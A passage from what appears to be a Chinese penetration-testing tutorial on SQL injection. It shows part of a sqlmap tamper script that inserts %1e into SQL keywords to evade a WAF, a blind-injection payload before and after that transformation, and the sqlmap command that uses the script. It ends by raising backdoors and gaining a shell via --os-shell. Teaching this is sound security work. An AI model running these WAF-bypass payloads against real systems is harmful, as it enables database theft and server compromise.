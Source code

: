```python
                result = result.replace(word, str)
    return result
```

上述代码会判断输入的字符串是否有 SQL 关键词，如果有就随机在关键词中间插入%1e。

假设原注入语句为：

```sql
and ascii(substr((select database()),1,1))>64
```

经转换后变成：

```sql
a%1end a%1escii(sub%1estr((s%1eelect da%1etabase()),1,1))>64
```

最后调用 sqlmap 执行即可：

```shell
./sqlmap.py -u url --tamper=bypasswaf.py --dbs
```

到这里咱们就完成请求参数的修改了，这是用来绕过 WAF 是非常有效的手段。

### 总结

这一讲我主要介绍了二次注入产生的原理，以及如何利用 SQL 注入漏洞，包括手工注入及使用 sqlmap 实现自动化漏洞。

在个人渗透测试经历中，如果要挖掘和利用 SQL 注入漏洞，那么手工注入的技能是必备的，毕竟 sqlmap 也有扫不出来的情况。一旦能够手工注入成功，哪怕 sqlmap 检测不出来，我们也可以借助 tamper 脚本构造可成功注入的语句，然后再利用 sqlmap 与 tamper 脚本完成自动化的利用。无论如何，sqlmap 一直是 SQL 注入领域最优秀的工具，没有之一，非常值得学习和研究。

那我们如何利用 SQL 注入写入后门，进而拿到服务器的 shell 权限，比如 sqlmap 中的--os-shell 参数使用，还有 MySQL 新特性 secure_file_priv 对读写文件的影响呢？欢迎在留言区分享你的看法。

下一讲，我将带你了解如何检测和防御 SQL 注入，到时见\~

![Lark20210104-183641.png](https://s0.lgstatic.com/i/image/M00/8C/B3/CgqCHl_y786AUgVhAAUYGxCiFok593.png)
